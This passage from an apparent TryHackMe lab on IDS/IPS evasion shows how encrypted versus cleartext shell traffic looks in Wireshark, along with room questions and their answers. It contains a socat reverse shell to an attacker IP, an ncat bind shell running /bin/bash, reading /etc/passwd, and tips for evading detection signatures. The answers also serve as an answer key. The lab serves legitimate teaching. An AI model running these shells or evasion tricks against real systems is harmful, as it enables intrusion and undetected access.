 However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other words, the IPS will be completely oblivious to exchange traffic and commands such as cat /etc/passwd. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains cat /etc/passwd; however, it is encrypted.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/3352df7b863f48cfaf0aee8f308e95a9.png)

As you can tell, it is not possible to make sense of the commands or data being exchanged. To better see the value of the added layer of encryption, we will compare this with an equivalent socat connection that does not use encryption.

    On the attacker’s system, we run socat -d -d TCP-LISTEN:4443,fork STDOUT.
    On the victim’s machine, we run socat TCP:10.20.30.129:4443 EXEC:/bin/bash.
    Back on the attacker’s system, we type cat /etc/passwd and hit Enter/Return.

Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged. In the following screenshot, we can see the command sent by the attacker.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/08f8e9b8cdae4878dab23cbb57dfbbe2.png)

Furthermore, it is a trivial task to follow the TCP stream as it is in cleartext and learn everything exchanged between the attacker and the target system. The screenshot below uses the “Follow TCP Stream” option from Wireshark.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/40f0e2f428db90b8b57d708d77eae99c.png)

Modify the data

Consider the simple case where you want to use Ncat to create a bind shell. The following command ncat -lvnp 1234 -e /bin/bash tells ncat to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.

    Scanning for ncat -lvnp can be easily evaded by changing the order of the flags.
    On the other hand, inspecting the payload for ncat - can be evaded by adding an extra white space, such as ncat  - which would still run correctly on the target system.
    If the IDS is looking for ncat, then simple changes to the original command won’t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such as nc or socat. Alternatively, you can consider a different encoding if the target system can process it properly.



Using base64 encoding, what is the transformation of cat /etc/passwd?
( Question Hint Write the command to a text file. Make sure you end your command with Enter/Return.)

	Y2F0IC9ldGMvcGFzc3dkCg==

	The base32 encoding of a particular string is NZRWC5BAFVWCAOBQHAYAU===. What is the original string?
*ncat -l 8080*

Using the provided openssl command above. You created a certificate, which we gave the extension .crt, and a private key, which we gave the extension .key. What is the first line in the certificate file?
*-----BEGIN CERTIFICATE-----*

